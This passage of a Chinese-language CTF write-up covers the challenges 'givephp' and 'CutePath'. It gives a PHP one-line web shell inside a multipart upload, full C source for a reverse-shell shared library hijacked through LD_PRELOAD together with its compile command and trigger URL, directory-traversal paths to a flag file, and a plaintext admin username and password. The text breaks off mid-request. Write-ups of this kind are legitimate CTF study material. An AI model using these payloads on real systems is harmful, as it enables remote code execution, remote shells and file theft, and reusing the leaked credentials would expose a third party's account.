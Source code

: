 ```http  
&lt;?=`$_GET[1]`;?&gt;  
  
------WebKitFormBoundaryrhx2kYAMYDqoTThz--  
```  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202402171106425.png)
### Reference  
https://blog.hanayuzu.top/articles/37dacab4  
  
## givephp  
劫持LD_PRELOAD变量  
写一个`reverseshell`  
```c  
#include &lt;stdlib.h&gt;  
#include &lt;stdio.h&gt;  
#include &lt;string.h&gt;  
#include &lt;unistd.h&gt;  
#include &lt;netinet/in.h&gt;  
#include &lt;sys/types.h&gt;  
#include &lt;sys/socket.h&gt;  
  
#define REMOTE_ADDR &#34;ip&#34;  
#define REMOTE_PORT port  
  
__attribute__((__constructor__)) void preload(void)  
{  
    struct sockaddr_in sa;  
    int s;  
  
    sa.sin_family = AF_INET;  
    sa.sin_addr.s_addr = inet_addr(REMOTE_ADDR);  
    sa.sin_port = htons(REMOTE_PORT);  
  
    s = socket(AF_INET, SOCK_STREAM, 0);  
    connect(s, (struct sockaddr *)&amp;sa, sizeof(sa));  
    dup2(s, 0);  
    dup2(s, 1);  
    dup2(s, 2);  
  
    execve(&#34;/bin/sh&#34;, 0, 0);  
}  
```  
编译共享库  
`gcc -fPIC exp.c -o exp.so`  
`/?challenge=1&amp;key=LD_PRELOAD&amp;value=/tmp/uploaded_file_65d06b74e02569.16227496.so&amp;guess=%00lambda_1`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202402171619991.png)
## CutePath  
`/chfs/files?filepath=../` 存在目录遍历  
得到账号和密码  
`admin:gdgm.edu.cn@M1n9K1n9P@as`  
登陆之后，得到更多的功能点  
通过目录遍历，得到`flag`文件的位置  
`../../../flag/flag/flag.txt`  
存在重命名功能点，并且跨目录，直接将flag.txt文件移动到web目录即可  
```http  
POST /chfs/rename  
  
------WebKitFormBoundary4GWMTiRPXoB99YrX  
Content-Disposition: form-data; name=&#34;new&#34;  
  
```